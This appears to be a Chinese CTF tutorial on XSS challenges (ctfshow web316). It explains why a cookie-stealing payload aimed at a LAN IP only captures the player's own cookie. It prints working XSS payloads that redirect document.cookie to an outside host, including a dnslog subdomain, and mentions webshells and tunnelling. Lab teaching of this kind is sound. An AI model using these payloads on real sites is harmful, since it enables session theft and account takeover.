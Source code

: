 什么是XSS？攻击者准备了一个payload，在用户点击后，在用户浏览器里执行了攻击者提供的javascript代码，js代码可以获取到用户的cookie等信息。xss题目一般后台会有一个机器人脚本/功能，定期执行用户提交的payload。

例如，一个页面，会把url里的参数值显示在页面，例如`http://example.com/?name=<script>alert(1)</script>`，如果页面没有对参数值进行过滤，直接显示在页面上，那么就会执行`<script>alert(1)</script>`这段代码，弹出一个提示框。

什么是叉自己？

## 叉自己举例/细节

下面以web316具体举例。

打开靶机，看看自己的cookie，`flag=you are not admin no flag`，真实的flag是网站管理员的cookie，也就是后台的xss bot机器人的cookie

![1](./images/xss/1.png)

随便输入111，提交，提交的内容111直接显示在了页面上。重点提交的111是一个get参数出现在url里，可以在页面直接显示，有xss漏洞的可能。

![2](./images/xss/2.png)

提交一串js代码

```javascript
<script>alert(1)</script>
```

页面成功执行了js代码，弹出提示框1，说明有xss漏洞。

![3](./images/xss/3.png)

可以使用js代码，在用户打开恶意构造的url时，执行js，发起一个网络请求，把用户的cookie发送到攻击者的服务器上。

**窃取用户cookie有什么用？**，对于一些简单的站点，在访问站点时，带上该用户的cookie，有可能可以直接登录该用户的账号，获取用户的敏感信息。

例如下面这段代码，获取当前页面网站的cookie，把网站重定向请求攻击者的服务器上，把这里的`http://example.com`换成自己服务器的ip就可以收到这个xss请求的cookie。

```javascript
<script>
window.location.href = 'http://example.com/?cookie=' + document.cookie
</script>
```

新手师傅自然而然想到查看自己电脑的ip，把上面换成自己的ip，PHPstudy或者python开个web服务，发现flag是`you are not admin no flag`，没有拿到flag。

例如我使用python开一个python http服务，我的ip是`192.168.6.116`，端口4444

![4](./images/xss/4.png)

**你拿到的这个cookie是谁的？你自己的。你写了一个恶意xss payload在攻击自己，叉自己。在你提交这个恶意payload时，靶机后台xss bot在执行这个js代码时，在他内网没有这个主机，找不到他内网的192.168.6.116这个ip，访问不到你的192，172，10段ip**

![5](./images/xss/5.png)

## 解决方案

那就有好奇宝宝要问了，对啊对啊，我是内网ip，靶机访问不到我，我该怎么做这题？好问题，提供几个简单的方法

- 使用网络上免费提供的`weblog`平台，把xss的请求url叉到这里。（简单推荐，0成本，即开即用）
- 使用自己的公网服务器python开启一个http服务。注意不要直接在`~`目录开启，会泄露`~`目录的所有文件，网络上会有恶意攻击者专门扫描这个特征指纹。
- 如果你在做ctfshow的xss，同时你还有攻防世界、buuctf、nssctf靶场的账号，在其他靶场找个简单的web题目，拿个webshell，写个php文件，把url请求的参数值写进文件。
- 使用内网穿透攻击，把本地内网ip、端口映射到公网。

这里只介绍第一种方法，其他方法自行探索。

`weblog`推荐平台 [eyes.sh](https://eyes.sh/dns/)

打开，直接使用平台分配的账号进去，不需要自己注册。

在`dnslog`页面，记录分配给你的子域名

![6](./images/xss/6.png)

修改xss payload，把受害者（xss bot）的cookie叉到这里，不出意外的话，会收到两个请求，一个是你提交payload时触发的请求，另一个是靶机后台xss bot执行payload时触发的请求。

```javascript
<script>
window.location.href = 'http://enwvbm6o.eyes.sh/?cookie=' + document.cookie
</script>
```

验证成功

![7](./images/xss/7.png)